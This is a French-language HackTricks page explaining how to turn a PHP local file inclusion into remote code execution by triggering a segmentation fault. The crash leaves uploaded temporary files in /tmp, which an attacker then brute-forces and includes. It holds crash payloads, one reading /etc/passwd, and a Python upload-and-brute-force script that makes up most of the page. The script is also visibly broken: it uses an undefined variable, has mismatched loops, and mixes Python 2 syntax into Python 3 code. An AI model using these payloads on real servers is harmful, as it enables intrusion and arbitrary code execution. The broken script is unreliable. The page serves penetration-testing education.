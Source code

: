 # LFI2RCE via Segmentation Fault

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

Selon les writeups [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (deuxième partie) et [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view), les charges utiles suivantes ont provoqué une erreur de segmentation en PHP :
```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```
Vous devez savoir que si vous **envoyez** une requête **POST** **contenant** un **fichier**, PHP créera un **fichier temporaire dans `/tmp/php<quelquechose>`** avec le contenu de ce fichier. Ce fichier sera **automatiquement supprimé** une fois que la requête aura été traitée.

Si vous trouvez une **LFI** et que vous parvenez à **déclencher** une erreur de segmentation dans PHP, le **fichier temporaire ne sera jamais supprimé**. Par conséquent, vous pouvez le **rechercher** avec la vulnérabilité **LFI** jusqu'à ce que vous le trouviez et exécutiez du code arbitraire.

Vous pouvez utiliser l'image docker [https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0) pour les tests.
```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
for i in charset:
for j in charset:
for k in charset:
for l in charset:
for m in charset:
for n in charset:
filename = prefix + i + j + k
url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
print url
response = requests.get(url)
if 'spyd3r' in response.content:
print "[+] Include success!"
return True


def main():
bruteforce(charset)

if __name__ == "__main__":
main()
```
{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
